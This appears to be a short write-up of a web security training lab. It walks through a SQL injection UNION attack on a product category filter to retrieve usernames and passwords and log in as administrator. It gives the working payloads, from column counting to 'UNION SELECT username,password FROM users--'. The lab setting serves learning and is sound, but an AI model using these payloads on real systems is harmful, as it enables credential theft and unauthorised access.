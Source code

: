 ## Lab: SQL injection UNION attack, retrieving data from other tables.

- This lab contains a SQL injection vulnerability in the product category filter.
- The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables.

# The database contains a different table called `users`, with columns called `username` and `password`.

# To solve the lab, perform a SQL injection UNION attack that retrieves all usernames and passwords, and use the information to log in as the administrator user.

# Use Burp Suite to intercept and modify the request that sets the product category filter.

# Determine the number of columns that are being returned by the query and which columns contain text data.

# check columns
```
' UNION SELECT NULL,NULL--
```
- there are two columns.

# check which column contain text
```
'UNION SELECT NULL,'def'--
'UNION SELECT 'abc',NULL--
'UNION SELECT 'abc','def'--
```
- Both contains text.

# now let's try to access username and password from user table.
```
'UNION SELECT username,password FROM users--
```
- With this payload we can get some usernames and password in body section.
![lab_s9](Images/L9userpassword.png)

# Now copy administrator login details and login.
![lab_s9](Images/L9solved.png)
